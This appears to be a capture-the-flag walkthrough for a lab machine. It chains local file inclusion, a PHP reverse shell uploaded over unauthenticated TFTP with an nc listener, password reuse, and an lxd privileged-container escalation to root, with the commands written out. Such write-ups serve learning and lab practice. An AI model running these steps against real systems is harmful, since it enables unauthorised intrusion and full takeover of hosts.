# Included Writeup

First, we need to spawn the target machine.
When we open the target on browser, we will see this :


We noticed that our url changed to **/?file=home.php**, which might be vulnerable to **local file inclusion** (LFI). 
<details> <summary><strong>Local File Inclusion</strong></summary>
Local file inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application.
</br>
LFI attacks are used by attackers to trick a web application into running or exposing files on a web server. If the attack is successful, it will expose sensitive information, and in severe cases, can lead to XSS and remote code execution.
</details>

We can try different paths to check if it is indeed vulnerable. One example that we can try is `/etc/passwd` since it should exist & readable to everyone.

<details><summary><strong>About /etc/passwd</strong></summary>

<p>The `/etc/passwd` file is like the ID card for users on a Unix system! Here's why it's important:</p>

- **User Info**: Contains username, user ID (UID), group ID (GID), full name, home directory, and login shell.
- **Permissions**: Readable by all, but only admins can modify it.
- **Format**: Each user's data is on a line, separated by colons. Example:
root:*:0:0:System Administrator:/var/root:/bin/sh
- **Evolution**: Historically stored passwords, but now they’re moved to `/etc/shadow` for security.

<p>Fun fact: If changed, a backup file like `/etc/passwd-` is created automatically!</p>

</details>


and yes, here we can see the users! There are 2 interesting users here, mike and tftp. 

TFTP stands for **Trivial File Transfer Protocol**. It is a simple way to transfer files between servers and computers. TFTP is faster than some other protocols, but also less secure. It's generally used for transferring small files. TFTP runs using **UDP** with **default port 69**.

TFTP does not have built-in encryption, access control or authentication. This makes it very easy for an attacker to trick TFTP into giving access to files.
Anyone can connect, download, and upload to the remote TFTP system.
<details><summary><strong>About UDP :</strong></summary>

<p><strong>How It Works:</strong>  
UDP is a lightweight protocol that operates on top of the Internet Protocol (IP). It sends packets (units of data) directly to a target computer without establishing a connection first. This allows for faster data transfer speeds, but it can also lead to lost packets and other issues.</p>

<p><strong>When It’s Used:</strong>  
UDP is often used for time-sensitive applications like gaming, video streaming, and DNS lookups. It's also used for Remote Procedure Call (RPC) applications.</p>

<p><strong>Advantages:</strong>  
UDP is faster than other protocols and requires fewer resources. It also allows missing packets, which is useful for real-time communications.</p>

<p><strong>Disadvantages:</strong>  
UDP is less reliable than other protocols like Transmission Control Protocol (TCP). It doesn't guarantee that packets will arrive in order or be delivered at all. UDP also doesn't have congestion control mechanisms, so it can flood a network with packets if not used carefully.</p>

<p><strong>Packet Structure:</strong>  
Each UDP packet has a source port, destination port, length, checksum, and data.</p>

</details>

## Foothold
We can try to upload a script to the TFTP, and load it using the LFI vulnerability. Here, we will use [PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell) (In my case, its already in **/usr/share/webshell/php/php-reverse-shell.php**). 

**Note :** edit the shell's IP first to your tun0 ip (10.10.14.61 to me), and the listening port to any port you want to listen to (I usually use 1443). To see your tun0 ip, use `ifconfig`'s tun0 inet IP.

We need to install TFTP first by :
```bash
sudo apt install tftp
```
Then, we can connect to the target's tftp and upload our shell!

After uploading, we can set up our nc listener using nc :
```bash
nc -lvnp 1443
```
Since we know that tftp home directory is `/var/lib/tftpboot` (from the `/etc/passwd` shown above), we know that our shell_php.php is uploaded there!

Hence, we can load it using curl, or just browse the path (`http://<TARGET_IP>/?file=/var/lib/tftpboot/shell_php.php`). Now, our listener connected to the shell!



We can upgrade our shell to make it look better using
```python
python3 -c "import pty; pty.spawn('/bin/bash');"
```
We are currently accessed to `www-data` user, and don't have much privileges

<details><summary>About www-data & /var/www/html</summary>
<p><strong>www-data: </strong>A default system user/group used by web servers like Apache or Nginx to run web services. It minimizes security risks by isolating web server processes from other system processes.</p>

<strong>/var/www/html:</strong> The default directory for serving web content in Linux distributions. It’s where you place website files (HTML, PHP, etc.) to make them accessible via a web server.

Together, www-data owns or manages /var/www/html to host websites securely while restricting unnecessary access.
</details>

## Privilege Escalation
Now, if we can try exploring user's capability & files, and we get this!

User `mike` might be using the same password, so we try to switch user to mike using `su`.
<div style="text-align: center;">
    
</div>
and we're authenticated as mike!

Here is our user flag.
<div style="text-align: center;">
    
</div>


Using `id` command, we can see that mike belongs to lxd group. Through google search, we can find about [lxd exploitations](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) and turns out we can escalate privileges to root (without any sudo rights/passwords). 

Here, I will follow the [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) page **Method 2**. (I tried using method 1 first, but the build-lxd isnt supported anymore, then I git checkout to get the previous distrobuilder, but failed again since my architecture `arm64` not supported, I gave up method 2 since it also takes me so long to download qemu & docker to emulate amd64)

**Method 1 fail compilation :**



**Method 2 :**
```bash
# Build an Alpine image and start it using the flag security.privileged=true
# forcing the container to interact as root with the host filesystem.
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```
To use these files, we need to transfer it to the target.
We can start a python http.server & get our files using wget
```
python3 -m http.server 8000
```
```
wget http://OUR_IP:8000/alpine<IMAGE_NAME_HERE>.tar.gz
```
**Note :** start it at the lxd-alpine-builder directory, since we need to get the image from target which is located there.

On our machine :


On target machine :


After transferring, we can do :
```bash
# import the image
lxc image import ./alpine<IMAGE_NAME_HERE>.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```
And lastly, we can start it using this, yayayyy!!
```bash
lxc start mycontainer
lxc exec mycontainer /bin/sh
cd /mnt/root #Here is where the filesystem is mounted
```
<div style="text-align: center;">
    
</div>

The root flag is in `/mnt/root/root/` since it's mounted there
<div style="text-align: center;">
    
</div>

<details>
<summary><strong>What is a Mount?</strong></summary>
A mount makes a file system, directory, or device available to an operating system at a specific point in its directory tree. In this case, it links the host’s / directory to the container’s /mnt/root directory, enabling the container to access files from the host system.
</details>